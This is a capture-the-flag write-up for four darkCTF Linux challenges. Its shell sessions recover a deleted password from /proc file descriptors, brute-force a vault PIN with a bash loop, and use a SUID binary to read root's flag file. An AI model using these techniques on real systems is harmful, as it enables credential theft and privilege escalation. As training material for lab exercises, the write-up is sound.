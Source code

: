 # Challenge: Linux Starter
>Don't Try to break this jail<br>
ssh wolfie@linuxstarter.darkarmy.xyz -p 8001 password : wolfie

## Solution
We get into a `rbash` shell. We run some simple commands and get the flag<br>
```bash
wolfie:~$ cat *
cat: bin: Is a directory
cat: imp: Is a directory
wolfie:~$ cat imp/*
darkCTF{h0pe_y0u_used_intended_w4y}
```
## Flag:
>darkCTF{h0pe_y0u_used_intended_w4y}

# Challenge: Find-me
>Mr.Wolf was doing some work and he accidentally deleted the important file can you help him and read the file?<br>
ssh ctf@findme.darkarmy.xyz -p 10000 password: wolfie

## Solution
As the question suggests about the delete file. I went to `/proc/10/fd` and found 3 files there.
```bash
wolf1@7e6800eb0d43:/proc/10/fd$ ls -la
total 0
dr-x------ 2 wolf1 wolf1  0 Sep 28 14:56 .
dr-xr-xr-x 9 wolf1 wolf1  0 Sep 28 14:56 ..
lr-x------ 1 wolf1 wolf1 64 Sep 28 14:57 0 -> /dev/null
l-wx------ 1 wolf1 wolf1 64 Sep 28 14:57 1 -> /dev/null
l-wx------ 1 wolf1 wolf1 64 Sep 28 14:57 2 -> /dev/null
lr-x------ 1 wolf1 wolf1 64 Sep 28 14:57 3 -> '/home/wolf1/pass (deleted)'
wolf1@7e6800eb0d43:/proc/10/fd$ cat 3
mysecondpassword123
```
I found out there are 2 users in the home directory.
```bash
wolf1@7e6800eb0d43:/home/wolf1$ ls ../
wolf1  wolf2
```
So I used the above password to gain access to `wolf2`. And searched for files in it.
```bash
wolf2@7e6800eb0d43:/home/wolf2$ find . -type f
./.bash_logout
./.bashrc
./.profile
./proc/g/nice_work
wolf2@7e6800eb0d43:/home/wolf2$ cat proc/g/nice_work | rev
}galf eht no gnidnats era uoy{FTCkrad

darkCTF{w0ahh_n1c3_w0rk!!!}
```
## Flag:
>darkCTF{w0ahh_n1c3_w0rk!!!}

# Challenge: Secret Vault
>There's a vault hidden find it and retrieve the information. Note: Do not use any automated tools.<br>
ssh ctf@vault.darkarmy.xyz -p 10000

## Solution
I found the vault file
```bash
dark@941b05d2d95a:/home/dark$ find /home -type f
/home/.secretdoor/vault
/home/dark/.bash_logout
/home/dark/.profile
/home/dark/.bashrc
dark@941b05d2d95a:/home/dark$ cd /home/.secretdoor/
dark@941b05d2d95a:/home/.secretdoor$ ls
vault
dark@941b05d2d95a:/home/.secretdoor$ ./vault 1234

wrong pin: 1234
```
Wrote a script to bruteforce PIN
```bash
dark@5a95bae226e7:/home/.secretdoor$ nr=0; while true; do nr=$((nr+1)); if [[ $(./vault $nr) != *"wrong"* ]]; then ./vault $nr; echo $nr; fi; done;

Vault Unlocked :A79Lo6W?O%;D;Qh1NIbJ0lp]#F^no;F)tr9Ci!p(+X)7@ 
8794
```
Base85 decode the string gives the flag.

## Flag:
>darkCTF{R0bb3ry_1s_Succ3ssfullll!!}

# Challenge: Squids
>Squids in the linux pool<br>
ssh ctf@squid.darkarmy.xyz -p 10000 password: wolfie

## Solution
I searched a little and I found a interesting SUID binary.
```bash
wolf@04a47f9b0d08:/home/wolf1$ find /opt -type f
/opt/src/src/iamroot
wolf@04a47f9b0d08:/home/wolf1$ cd /opt/src/src/
wolf@04a47f9b0d08:/opt/src/src$ ./iamroot 324
cat: 324: No such file or directory
```
It can run `cat` command as root
```bash
wolf@04a47f9b0d08:/opt/src/src$ ./iamroot /root/flag.txt
darkCTF{y0u_f0und_the_squ1d}
```
## Flag:
> darkCTF{y0u_f0und_the_squ1d}
